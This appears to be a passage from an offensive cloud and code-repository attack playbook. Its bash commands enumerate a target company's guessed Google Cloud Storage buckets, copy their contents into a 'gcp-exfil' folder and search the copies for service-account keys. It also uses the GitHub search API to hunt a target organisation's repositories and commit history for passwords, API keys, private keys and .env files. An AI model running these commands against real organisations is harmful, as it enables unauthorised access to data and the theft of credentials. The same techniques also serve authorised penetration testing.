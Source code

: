 #### GCP Initial Access

**Google Cloud Storage Enumeration**
```bash
# Install Google Cloud SDK
curl https://sdk.cloud.google.com | bash

# Enumerate public buckets
gsutil ls gs://company-name-backups 2>/dev/null
gsutil ls gs://companyname-logs 2>/dev/null

# Download accessible bucket contents
gsutil -m cp -r gs://public-bucket ./gcp-exfil/

# Check bucket permissions
gsutil iam get gs://target-bucket

# Search for GCP credentials
grep -r "service_account\|private_key\|client_email" ./gcp-exfil/
find . -name "*.json" -exec jq -r 'select(.type=="service_account") | .client_email' {} \; 2>/dev/null
```

### Code Repository Attacks

#### GitHub Intelligence Gathering

**Repository Reconnaissance**
```bash
# Install GitHub CLI
curl -fsSL https://cli.github.com/packages/githubcli-archive-keyring.gpg | sudo gpg --dearmor -o /usr/share/keyrings/githubcli-archive-keyring.gpg
echo "deb [signed-by=/usr/share/keyrings/githubcli-archive-keyring.gpg] https://cli.github.com/packages stable main" | sudo tee /etc/apt/sources.list.d/github-cli.list
sudo apt update && sudo apt install gh

# Search for exposed secrets
gh api search/code --method GET -f q="password in:file repo:target-org" --paginate | jq '.items[].html_url'
gh api search/code --method GET -f q="api_key in:file repo:target-org" --paginate | jq '.items[].html_url'
gh api search/code --method GET -f q="private_key in:file repo:target-org" --paginate | jq '.items[].html_url'

# Find configuration files
gh api search/code --method GET -f q="filename:.env repo:target-org" --paginate | jq '.items[].html_url'
gh api search/code --method GET -f q="filename:config.json repo:target-org" --paginate | jq '.items[].html_url'

# Analyze commit history for secrets
git log --all --grep="password\|secret\|key" --oneline
git log -S"password" --all --oneline
```
